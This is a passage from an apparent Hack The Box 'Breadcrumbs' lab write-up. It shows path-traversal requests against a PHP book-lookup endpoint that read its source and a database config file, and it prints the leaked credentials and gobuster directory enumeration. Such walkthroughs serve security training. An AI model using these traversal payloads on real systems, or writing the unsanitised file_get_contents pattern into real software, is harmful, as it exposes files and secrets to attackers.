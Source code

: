 ```
false
```

It says undefined key 'book' this means we are missing book.. so lets add it and again send our request to burp

![changing method and adding book](/assets/images/breadcrumbs-images/burp1.png)

you see? Now we don't have that error plus we could control the `file_get_contents(../books/test)`


After that I tried to read the bookController.php using this: 
change the request to
`book=../includes/bookController.php&method=1`

This gave me the php file and it contained reference to db.php

bookController.php
```php
<?php
if($_SERVER['REQUEST_METHOD'] == \"POST\"){    $out = \"\";    require '..\/db\/db.php';    $title = \"\";    $author = \"\";    if($_POST['method'] == 0){        if($_POST['title'] != \"\"){            $title = \"%\".$_POST['title'].\"%\";        }        if($_POST['author'] != \"\"){            $author = \"%\".$_POST['author'].\"%\";        }                    $query = \"SELECT * FROM books WHERE title LIKE ? OR author LIKE ?\";        $stmt = $con->prepare($query);        $stmt->bind_param('ss', $title, $author);        $stmt->execute();        $res = $stmt->get_result();        $out = mysqli_fetch_all($res,MYSQLI_ASSOC);    }    elseif($_POST['method'] == 1){        $out = file_get_contents('..\/books\/'.$_POST['book']);    }    else{        $out = false;    }    echo json_encode($out);}"
```

So I again sent a request now with `book=../db/db.php&method=1`
and got this

```php


"<?php\r\n\r\n$host=\"localhost\";\r\n$port=3306;\r\n$user=\"bread\";\r\n$password=\"jUli901\";\r\n$dbname=\"bread\";\r\n\r\n$con = new mysqli($host, $user, $password, $dbname, $port) or die ('Could not connect to the database server' . mysqli_connect_error());\r\n?>\r\n"
```

```
bread:jUli901
```

Can't use this password in SSH.
So I ran gobuster to find other dirs

```bash

darkrider@sunshine:~/hackthebox/boxes/breadcrumbs$ gobuster dir -u http://10.10.10.228/ -w /usr/share/wordlists/dirb/common.txt -t 100 -x php
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.228/
[+] Threads:        100
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2021/03/01 10:08:35 Starting gobuster
===============================================================
/Books (Status: 301)
/books (Status: 301)
```
